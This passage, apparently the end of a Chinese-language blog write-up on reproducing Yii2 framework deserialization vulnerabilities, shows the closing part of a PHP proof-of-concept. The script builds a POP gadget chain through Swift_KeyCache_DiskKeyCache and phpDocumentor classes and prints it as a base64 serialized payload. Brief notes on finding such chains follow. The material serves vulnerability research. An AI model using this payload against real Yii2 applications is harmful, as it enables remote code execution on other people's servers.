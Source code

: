 ```php
        public function __construct()
        {
            $this->description = new Generator();
        }
    }
}
namespace{
    use phpDocumentor\Reflection\DocBlock\Tags\See;
    class Swift_KeyCache_DiskKeyCache{
        private $keys = [];
        private $path;
        public function __construct()
        {
            $this->path = new See;
            $this->keys = array(
                "axin"=>array("is"=>"handsome")
            );
        }
    }
    // 生成poc
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache()));
}
?>
```

![](/yii2框架-反序列化漏洞复现/yii2-007.jpg)

### 小结

- 发现这几个pop链用来用去最后都是靠着`__call`方法来触发代码执行。
- 找链子的开端可以尝试从`__destruct`入手，然后追链，追方法
- `__call_user_func`中的`callback`可以是数组
- 2.0.38还有2个链子没弄
- 2.0.42还有链子....


